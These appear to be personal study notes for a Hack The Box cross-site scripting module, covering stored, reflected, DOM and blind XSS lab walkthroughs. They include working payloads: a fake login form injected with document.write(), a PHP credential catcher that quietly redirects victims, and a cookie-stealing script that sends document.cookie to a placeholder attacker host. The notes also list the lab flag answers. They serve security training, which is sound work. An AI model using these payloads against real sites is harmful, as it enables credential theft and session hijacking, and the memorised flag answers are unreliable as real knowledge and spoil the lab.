

# Cross-Site Scripting XSS (HTB Supplementary)

#XSS #StoredXSS #ReflectedXSS #DOMXSS #BlindXSS #SessionHijacking #CookieTheft #Phishing #CredentialHarvesting #HTBSupplementary

**HTB XSS module**, supplements [[Introduction to Web Application Attacks#8.4. Cross-Site Scripting|Module 8.4 XSS]] which covers identification and basic proof-of-concept only. This module adds: Stored vs Reflected vs DOM distinction with cookie-theft payloads, XSS-based phishing (fake login form injection via `document.write()`), session hijacking via cookie exfiltration (`new Image().src`), and blind XSS detection against an admin-reviewer target.

Already in vault (cross-referenced): basic XSS probe characters, alert(1) PoC payloads. See [[Introduction to Web Application Attacks#8.4.3. Identifying XSS Vulnerabilities|8.4.3]], [[Introduction to Web Application Attacks#8.4.4. Basic XSS|8.4.4]], [[Web Applications#XSS Testing and Basic Payloads|Command Appendix XSS section]].

> 🔁 Cross-refs: [[Introduction to Web Application Attacks#8.4. Cross-Site Scripting|Module 8.4]], [[Web Applications#XSS Testing and Basic Payloads|Command Appendix]], [[Web Applications (Decision Tree)|Web Apps Decision Tree]], [[Phishing Basics]]

---

## Outstanding Sections

- [x] XSS.1. XSS Types Overview
- [x] XSS.2. Stored XSS
- [x] XSS.3. Reflected XSS
- [x] XSS.4. DOM XSS
- [x] XSS.5. XSS Discovery
- [x] XSS.6. Phishing via XSS (fake login form)
- [x] XSS.7. Session Hijacking (cookie theft)
- [x] XSS.8. Skills Assessment (blind XSS)

---

## XSS.1. XSS Types Overview

Three types of XSS, each with different persistence and execution context:

| Type | Where payload lives | Who triggers it | Detection method |
|------|---------------------|----------------|-----------------|
| **Stored** | Saved in the database (comment, profile field, etc.) | Any user who views the page later | Submit and browse the page that shows stored content |
| **Reflected** | URL parameter or POST form body, echoed immediately in the response | Only whoever clicks a crafted URL | Manipulate URL params or POST fields directly |
| **DOM** | Client-side JavaScript reads from a source (URL hash, `document.location`) and writes unsanitised to a sink (`innerHTML`, `document.write()`) | Whoever opens a crafted URL (no server round-trip) | View page source vs browser-rendered DOM; the payload never appears in the raw HTML response |

**Why the distinction matters:** Stored XSS is highest-impact (every visitor is affected, useful for mass credential harvest). DOM XSS bypasses server-side WAF entirely since the payload never reaches the server. Reflected XSS requires social engineering to get a target to click a malicious URL, but is often trivial to weaponize for phishing/session steal.

> 🔍 Worth remembering generally: DOM XSS requires reading the page source in DevTools, not just viewing `curl`/Burp raw responses. The `` payload in the DOM section fires because the browser processes the DOM, not because the server sent JS. A WAF that strips `<script>` from the HTTP response doesn't see `` injected via a hash fragment at all.

#### Tags: #XSS #StoredXSS #ReflectedXSS #DOMXSS

---

## XSS.2. Stored XSS

The simplest case. Input is saved to a database and rendered on a page that all users see.

**Workflow:**
1. Navigate to the target page with a form (comment box, profile field, etc.)
2. Inject the payload into the field and submit
3. Navigate to the page that renders stored user input
4. The browser executes the script, `alert()` pops up showing the cookie value

**Cookie theft payload:**
```javascript
<script>alert(document.cookie)</script>
```
`document.cookie` returns the current page's cookies as a semicolon-separated string. Using it inside `alert()` is a quick PoC, in a real attack you'd exfiltrate it out-of-band (see XSS.7).

> 📸 Screenshot: Form field with `<script>alert(document.cookie)</script>` typed in, submit button visible

> 📸 Screenshot: Alert box with cookie value as the message text (flag visible as cookie value)

**Q1 Answer:** `HTB{570r3d_f0r_3v3ry0n3_70_533}`

#### Tags: #StoredXSS #CookieTheft

---

## XSS.3. Reflected XSS

Payload is in a URL parameter or POST field, echoed in the response immediately without being stored. Only fires for whoever clicks the crafted URL.

**Workflow:**
1. Navigate to the target page
2. Inject the payload into the input field (or URL param) and submit
3. The browser receives the response with the payload inside the HTML and executes it

**Cookie theft payload:**
```javascript
<script>alert(document.cookie)</script>
```

> 📸 Screenshot: Input field with payload, "Add" button about to be clicked

> 📸 Screenshot: Alert box with flag value as cookie content

> 🔁 Similar to: [[Introduction to Web Application Attacks#8.4.4. Basic XSS|8.4.4]], same core mechanism, same script tag, same `alert()` PoC. The distinction (reflected vs stored) is entirely about where the payload lives between injection and execution, not about the payload itself.

**Q1 Answer:** `HTB{r3fl3c73d_b4ck_2_m3}`

#### Tags: #ReflectedXSS #CookieTheft

---

## XSS.4. DOM XSS

The injection is processed by client-side JavaScript reading from a DOM source (URL hash, URL parameters, `document.location`) and writing unsanitised to a DOM sink (`innerHTML`, `document.write()`, `eval()`). The payload never reaches the server at all.

**Why `<script>alert(1)</script>` often fails here:** the script is injected into the DOM after initial parse, and many DOM manipulation contexts don't re-execute `<script>` blocks inserted via `innerHTML`. The `` variant fires on the image load failure event instead and doesn't need a `<script>` block.

**Cookie theft payload:**
```javascript

```
`src=""` causes an immediate load failure. The `onerror` event handler fires and executes `alert(document.cookie)`.

> 📸 Screenshot: Input field with `` injected

> 📸 Screenshot: Alert dialog showing flag value (cookie content)

> 🔍 Worth remembering generally: DOM XSS sources and sinks come in pairs. Common sources: `document.URL`, `document.location.hash`, `window.location.search`, `document.referrer`. Common sinks: `innerHTML`, `outerHTML`, `document.write()`, `eval()`, `setTimeout(string)`. If client-side JS reads a URL fragment and passes it to any of those sinks unencoded, the injection point is DOM-based regardless of what the server does. PayloadsAllTheThings has a full source/sink table.

**Q1 Answer:** `HTB{pur3ly_cl13n7_51d3}`

#### Tags: #DOMXSS #EventHandler #InlineEventXSS

---

## XSS.5. XSS Discovery

Finding which parameter is vulnerable when the page has multiple inputs.

**Workflow:**
1. Register/use the app to generate a real URL with visible GET parameters
2. The URL after registration contained: `?fullname=test&username=test&password=123&email=test%40email.com`
3. Change individual parameter values and look for reflection in the page (error messages, "input received" displays, etc.)
4. The `email` parameter reflected input back on the page, changing its value showed up in the response
5. Inject a basic XSS payload and confirm it executes:

```javascript
<script>alert(1)</script>
```

**Testing a URL parameter directly:**
```
http://TARGET:PORT/?email=<script>alert(1)</script>
```

> 📸 Screenshot: URL bar showing `email=<script>alert(1)</script>` with the page showing the reflected input

> 📸 Screenshot: Alert(1) box confirming the email parameter is injectable

**Why this parameter and not others?** The `email` field was echoed in an error/confirmation message. Other fields (fullname, username) may not have been reflected, or may have been HTML-encoded before rendering. Always test each parameter individually.

> 🔧 Technique: for XSS discovery at scale, use an XSS-specific fuzzer payload list via ffuf: `ffuf -w xss-payloads.txt:FUZZ -u 'http://TARGET/page?param=FUZZ' -mr "alert"` to auto-detect when an alert fires. See [[Attacking Web Applications with Ffuf (HTB Supplementary)#FF.8. Value Fuzzing|FF.8]] for the value-fuzzing pattern.

**Q1 Answer:** `email`
**Q2 Answer:** `reflected`

#### Tags: #XSSDiscovery #ReflectedXSS #ParameterTesting

---

## XSS.6. Phishing via XSS

Inject a fake login form into a page to harvest credentials. The URL is sent to a victim who sees a convincing "please log in" form, on the legitimate domain.

### Step 1: Find a working XSS payload

Standard `<script>alert(1)</script>` may be filtered. Try quote-breaking variants:

```javascript
'><script>alert(1)</script>
"><script>alert(1)</script>
'>
```

For this lab, the `Image URL` field accepted: `'><script>alert(1)</script>`

> 📸 Screenshot: Image URL field containing `'><script>alert(1)</script>`, the `'>` closes a surrounding attribute and tag context

### Step 2: Build the injected HTML form

The form POSTs to your PHP listener. Use `document.write()` to inject it, and remove the original form so the page looks clean:

```html
<h3>Please login to continue</h3>
<form action=http://PWNIP:PWNPO>
    <input type="username" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <input type="submit" name="submit" value="Login">
</form>
```

Collapsed into a `document.write()` call and chained with element removal:

```javascript
document.write('<h3>Please login to continue</h3><form action=http://PWNIP:PWNPO><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();
```

`document.getElementById('urlform').remove()` strips the real URL input form from the DOM so the victim only sees the fake login prompt. The `id` of the form to remove depends on the page, inspect the source to find it.

### Step 3: Assemble the full XSS payload

```javascript
'><script>document.write('<h3>Please login to continue</h3><form action=http://PWNIP:PWNPO><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();</script><!--
```

The trailing `<!--` comments out any remaining HTML that would otherwise break the page after the injection point.

### Step 4: Set up the PHP credential capture server

Create `/tmp/tmpserver/` and add `index.php`:

```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://STMIP/phishing/index.php");  // redirect back to target — victim doesn't notice
    fclose($file);
    exit();
}
?>
```

Start the PHP dev server:
```bash
mkdir -p /tmp/tmpserver
cd /tmp/tmpserver
php -S 0.0.0.0:8080
```

Expected: `PHP Development Server started` on port 8080 (use a port not already in use; Pwnbox port 80 is taken).

### Step 5: URL-encode and send

URL-encode the full XSS payload and deliver it. For this lab, navigate to `/phishing/send.php` and provide the crafted URL:

```
http://TARGET/phishing/index.php?url=%27%3E%3Cscript%3Edocument.write%28...%29%3C%2Fscript%3E%3C%21--
```

After clicking "Send", the PHP server shows the captured credentials:
```
[...] GET /?username=admin&password=p1zd0nt57341myp455&submit=Login
```

### Step 6: Log in with harvested credentials

Navigate to `/phishing/login.php`, log in with `admin:p1zd0nt57341myp455`, and retrieve the flag.

> 📸 Screenshot: PHP server terminal showing captured username=admin&password=p1zd0nt57341myp455 in the request log

> 📸 Screenshot: /phishing/login.php showing the flag after successful login

> 🔍 Worth remembering generally: this attack works because the malicious form is served from the legitimate target domain. The victim sees the real domain in the address bar, so the usual "check the URL" advice fails. The only defense is checking for HTTPS + a valid certificate AND verifying the form action URL points somewhere legitimate, most users don't check form action URLs.

> 🔧 Technique: the `header("Location: ...")` redirect in the PHP listener is the key to making this attack invisible. After submitting, the victim is bounced back to the real site's login page, making it look like "wrong password, try again" rather than alerting them that something went wrong. Without the redirect, the browser would sit on a blank PHP page and the victim would know immediately that something was off.

**Q1 Answer:** `HTB{r3f13c73d_cr3d5_84ck_2_m3}`

#### Tags: #XSSPhishing #CredentialHarvesting #DocumentWrite #PHPServer

---

## XSS.7. Session Hijacking

Steal a logged-in user's session cookie to authenticate as them without needing their password.

### Step 1: Find a vulnerable input field

This lab uses a registration form where one field triggers an HTTP request when reviewed. Use a unique URL per field to pinpoint which one is vulnerable:

```javascript
"><script src=http://PWNIP:PWNPO/script.js></script>
```

Start an `nc` listener first:
```bash
nc -nvlp 8080
```

Expected output on a hit:
```
Ncat: Connection from TARGET.
GET /script.js HTTP/1.1
Host: PWNIP:8080
User-Agent: HTBXSS/1.0
```

The field that causes the `GET /script.js` request to arrive at nc is the vulnerable one. Here: "Profile Picture URL" field.

### Step 2: Write the cookie exfiltration script

Create `script.js`, this is what the vulnerable field's `<script src=...>` will load and execute in the victim's browser:

```javascript
new Image().src='http://PWNIP:PWNPO/index.php?c='+document.cookie;
```

`new Image().src=URL` fires an HTTP GET to the URL without triggering CORS or requiring XMLHttpRequest. The `document.cookie` value is appended as the `c` query parameter. This fires silently, no dialog box, no visible effect.

```bash
# Save it:
cat << 'EOF' > script.js
new Image().src='http://PWNIP:PWNPO/index.php?c='+document.cookie;
EOF
```

### Step 3: Write the PHP cookie capture server

Create `index.php` alongside `script.js`:

```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

`explode(";", ...)` splits the cookie string on semicolons so multiple cookies each get their own line in `cookies.txt`. `urldecode()` cleans up any URL-encoded characters.

```bash
# Start the server in the same directory as both files:
php -S 0.0.0.0:8080
```

### Step 4: Fire the XSS payload

Submit the payload in the "Profile Picture URL" field:
```javascript
"><script src=http://PWNIP:PWNPO/script.js></script>
```

Expected: PHP server log shows two requests, first for `script.js` (the browser loaded the payload), then for `index.php?c=<cookie>` (the cookie steal fired):

```
[...] [200]: (null) /script.js
[...] [200]: GET /index.php?c=cookie=c00k1355h0u1d8353cu23d
```

### Step 5: Use the stolen cookie

In Firefox DevTools:
1. Navigate to `/hijacking/login.php`
2. Open DevTools → **Storage** tab (or Application tab in Chrome) → **Cookies** → select the site
3. Add a new cookie entry: Name = `cookie`, Value = `c00k1355h0u1d8353cu23d`
4. Refresh the page, authenticated as admin, flag visible

> 📸 Screenshot: Firefox DevTools Storage tab showing the manually added cookie with value c00k1355h0u1d8353cu23d

> 📸 Screenshot: /hijacking/login.php showing the flag after cookie is set and page refreshed

> 🔍 Worth remembering generally: `new Image().src` is the standard out-of-band exfiltration vehicle for XSS because it bypasses CORS (images load cross-origin by default), doesn't require AJAX, doesn't trigger any user-visible event, and works in almost every browser context including headless browsers and mail clients that render HTML. It's also useful for blind SQL injection and SSRF callback confirmation.

> 🔧 Technique: the victim's cookie value in the PHP log will look like `c=cookie=c00k1355...` because `document.cookie` returns `name=value` pairs. The actual cookie value is everything after the first `=`. If multiple cookies come back (semicolon-separated), the `explode()` split handles each one separately.

**Q1 Answer:** `HTB{4lw4y5_53cur3_y0ur_c00k135}`

#### Tags: #SessionHijacking #CookieTheft #NewImage #OutOfBand #BlindExfil #PHPServer

---

## XSS.8. Skills Assessment

**Target:** Security blog. Comments say "must be approved by an admin." This means an admin bot reviews submissions, which is a blind XSS scenario.

**Objective:** steal the admin's cookie, which contains the flag.

### Step 1: Identify the entry point

Navigate to `/assessment` → find the "Welcome to Security Blog" post → click through to it. The post has a comment submission form with multiple fields.

### Step 2: Blind XSS detection — fingerprint which field is vulnerable

Use a unique filename per field so you can tell from the nc/PHP server request which field triggered it:

```javascript
'><script src="http://PWNIP:PWNPO/FieldName"></script>
```

Start nc listener:
```bash
nc -nvlp 9001
```

For each field in the comment form, submit a payload with that field's name baked in as the requested filename (e.g. `/WebsiteField`, `/CommentField`, etc.). Leave `name` and `email` out, they're often sanitised differently and rarely injectable.

After clicking "Post Comment", watch nc. The request that arrives:
```
GET /WebsiteField HTTP/1.1
Host: PWNIP:9001
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/91.0.4472.101 Safari/537.36
```

The `HeadlessChrome` User-Agent confirms: an automated headless browser (the admin reviewer bot) is visiting the submitted comment page. The `GET /WebsiteField` filename tells you the **Website** field is vulnerable.

> 🔍 Worth remembering generally: the headless Chrome UA is the fingerprint for admin bots. Any CTF/pentest scenario where submitted content is "reviewed by an admin" almost certainly means a headless browser is opening it. This pattern comes up in HTB machines, bug bounty programs, and OSCP labs. The unique-filename-per-field technique is the standard blind XSS fingerprinting method, you can't see execution, so you use the outbound HTTP request as your side channel.

### Step 3: Set up the cookie steal infrastructure

Create `script.js`:
```bash
cat << 'EOF' > script.js
new Image().src='http://PWNIP:PWNPO/index.php?c=' + document.cookie;
EOF
```

Create `index.php` (same PHP cookie catcher as XSS.7):
```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

Start the PHP server:
```bash
php -S 0.0.0.0:9001
```

### Step 4: Fire the cookie steal

Submit the XSS payload in the **Website** field of a new comment:
```javascript
'><script src=http://PWNIP:PWNPO/script.js></script>
```

> 📸 Screenshot: Comment form with Website field containing `'><script src=http://PWNIP:9001/script.js></script>`

Wait for the admin bot to review the comment.

### Step 5: Receive the flag

PHP server receives two requests in sequence:
1. `GET /script.js`, bot loaded the exfil script
2. `GET /index.php?c=wordpress_test_cookie=WP%20Cookie%20check; wp-settings-time-2=1669695315; flag=HTB{cr055_5173_5cr1p71n6_n1nj4}`

The `flag=HTB{...}` cookie is the answer. It's a WordPress instance where the flag was stored as a cookie value for the admin session.

> 📸 Screenshot: PHP server terminal showing the full cookie string including `flag=HTB{cr055_5173_5cr1p71n6_n1nj4}` in the `?c=` parameter

**Skills Assessment attack chain (Mermaid):**


**Q1 Answer:** `HTB{cr055_5173_5cr1p71n6_n1nj4}`

#### Tags: #BlindXSS #AdminBot #HeadlessChrome #SessionHijacking #SkillsAssessment #WordPress

---

## All Q&A Answers

| Section | Q# | Answer |
|---------|----|--------|
| Stored XSS | 1 | `HTB{570r3d_f0r_3v3ry0n3_70_533}` |
| Reflected XSS | 1 | `HTB{r3fl3c73d_b4ck_2_m3}` |
| DOM XSS | 1 | `HTB{pur3ly_cl13n7_51d3}` |
| XSS Discovery | 1 | `email` |
| XSS Discovery | 2 | `reflected` |
| Phishing | 1 | `HTB{r3f13c73d_cr3d5_84ck_2_m3}` |
| Session Hijacking | 1 | `HTB{4lw4y5_53cur3_y0ur_c00k135}` |
| Skills Assessment | 1 | `HTB{cr055_5173_5cr1p71n6_n1nj4}` |

---

## External Resources

- [HackTricks. XSS](https://github.com/HackTricks-wiki/hacktricks/blob/master/pentesting-web/xss-cross-site-scripting/README.md)
- [PayloadsAllTheThings. XSS Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md), large payload set, source/sink table for DOM XSS, filter bypass techniques
- [PortSwigger XSS cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet), comprehensive payload reference by context (attribute, tag, event handler, etc.)
- [ippsec.rocks](https://ippsec.rocks/?#), search "XSS" or "stored xss" for real box examples

---

## Module Summary

Three XSS types: Stored (persists in DB, fires for all viewers), Reflected (echoed in response, fires for URL-clicker only), DOM (purely client-side, payload never hits server, needs `` instead of `<script>`). Cookie theft PoC: `alert(document.cookie)`. Real exploitation goes two ways: phishing (inject a fake login form via `document.write()`, capture POSTed creds with a PHP listener that redirects victim back to the real site) or session hijacking (`new Image().src` fires silently, PHP splits and logs the cookie string, then set the stolen cookie in browser DevTools). Blind XSS: when content goes through an admin reviewer, use unique-filename probes per field to fingerprint the vulnerable one via the outbound HTTP request to your listener (HeadlessChrome UA confirms bot). Full stack: `script.js` (new Image().src) + `index.php` (explode cookies, write to file) + `php -S 0.0.0.0:PORT`.


---

## HTB Module Quick Reference

Commands formatted for use with the [[Pre-Engagement Kali Setup]] variable block.

```bash
# ============================================================
# XSS PAYLOADS
# ============================================================
# Basic test — confirms reflection, shows origin in alert
<script>alert(window.origin)</script>

# HTML-attribute context (when <script> tags are stripped by a filter)


# Plaintext tag — breaks page rendering, confirms injection point
<plaintext>

# Print dialog PoC (doesn't rely on alert being blocked)
<script>print()</script>

# Background colour change (defacement PoC)
<script>document.body.style.background = "#141d2b"</script>

# Overwrite body content
<script>document.getElementsByTagName('body')[0].innerHTML = 'text'</script>

# Remove a specific element by ID
<script>document.getElementById('urlform').remove();</script>

# Load remote script (put your payload in script.js on your listener)
<script src="http://$LocalIP/script.js"></script>

# Cookie theft — fires silently, sends cookie back to your PHP listener
<script>new Image().src='http://$LocalIP/index.php?c='+document.cookie</script>

# ============================================================
# TOOLS
# ============================================================
# XSStrike — automated XSS scanner against a URL parameter
python xsstrike.py -u "http://$BoxIP:$WebPort/index.php?task=test"

# Netcat listener for cookie theft callbacks
sudo nc -lvnp 80

# PHP server for capturing POST creds from a phishing form
sudo php -S 0.0.0.0:80
```
